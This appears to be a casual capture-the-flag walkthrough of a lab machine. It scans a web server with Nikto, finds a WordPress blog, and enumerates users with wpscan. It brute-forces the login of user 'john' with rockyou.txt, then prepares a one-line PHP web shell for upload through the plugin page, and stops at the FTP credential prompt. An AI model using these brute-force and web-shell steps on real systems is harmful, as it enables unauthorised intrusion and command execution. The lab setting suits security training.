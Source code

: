 ```
![image](https://user-images.githubusercontent.com/69868171/119161842-be0dd300-ba27-11eb-96fb-ceae1de7ddb7.png)

Found out we still have a web server running on a different port `12380` now let check it out to confirm it .

![image](https://user-images.githubusercontent.com/69868171/119162185-18a72f00-ba28-11eb-99df-c3d0405a7b91.png)

Now let run Nikto on it ahhhh SSL is active cool.

![image](https://user-images.githubusercontent.com/69868171/119162600-90755980-ba28-11eb-8c03-d4dccb3cf0f3.png)

Now let try opening the page again with SSL `https://172.16.139.169:12380/` .

![image](https://user-images.githubusercontent.com/69868171/119162826-d3373180-ba28-11eb-8fd8-09d9f0f5fdef.png)

Cool Nikto also show we have the robots.txt page with some directory in it let confirm it .

![image](https://user-images.githubusercontent.com/69868171/119162987-fc57c200-ba28-11eb-824f-5d70c4b35dec.png)

We move lol cool checking `admin112233` directory no luck but lesson learn and checking `blogblog` boom a wordpress CMS.

![image](https://user-images.githubusercontent.com/69868171/119163501-7720dd00-ba29-11eb-9cbc-dd2ccf540cc7.png)

Going through it saw a user `John Smith` probably the admin of the blog cool also found the name in the note i saw on the FTP server ok let enumerate more with `wpscan` .

![image](https://user-images.githubusercontent.com/69868171/119164401-6329ab00-ba2a-11eb-8b6c-2456ef64f6d4.png)

`wpscan --url https://172.16.139.169:12380/blogblog/ --enumerate u --disable-tls-checks` we need to disable the SSL for `wpscan` to work so got some few users with `wpscan` now let try to brute force with the user `john` and the passwordlist `rockyou.txt` .

`wpscan --url https://172.16.139.169:12380/blogblog/ --usernames john --passwords /usr/share/wordlists/rockyou.txt --disable-tls-checks`

![image](https://user-images.githubusercontent.com/69868171/119164666-a7b54680-ba2a-11eb-870c-b0ed29a6e702.png)

In no time we got the password now let log in.

![image](https://user-images.githubusercontent.com/69868171/119165174-3924b880-ba2b-11eb-9608-9ae6788718a0.png)

Now getting reverse shell using the plugin page click on add new plugin/upload plugin .

![image](https://user-images.githubusercontent.com/69868171/119165648-b6e8c400-ba2b-11eb-9d0b-2b9d55b7d0c8.png)

Now save `<?php system ($_GET['cmd']) ?>` in a PHP file like rev.php time to upload it .

![image](https://user-images.githubusercontent.com/69868171/119166690-f1069580-ba2c-11eb-8a5e-2f5bc2fac21f.png)

Now let click on `install now` but seems we need to add our FTP credentials before we can upload it easy we know it `anonymous` and `anonymous` with both username and password.
```